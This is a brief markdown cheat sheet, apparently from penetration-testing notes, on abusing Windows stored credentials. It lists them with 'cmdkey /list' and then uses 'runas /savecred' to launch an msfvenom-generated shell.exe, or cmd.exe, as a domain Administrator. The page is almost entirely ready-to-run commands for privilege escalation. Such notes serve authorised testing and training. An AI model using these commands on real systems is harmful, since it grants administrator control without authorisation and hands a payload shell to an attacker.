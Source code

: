 # Runas Stored Credentials

## Checking for Stored Credentaisl
```
cmdkey /list
```

## Running AS with msfvenom
```
runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"
```

## Runnng AS with local commands
```
runas /savecred /user:DOM.LOCAL\Administrator "c:\windows\system32\cmd.exe /k whoami"
```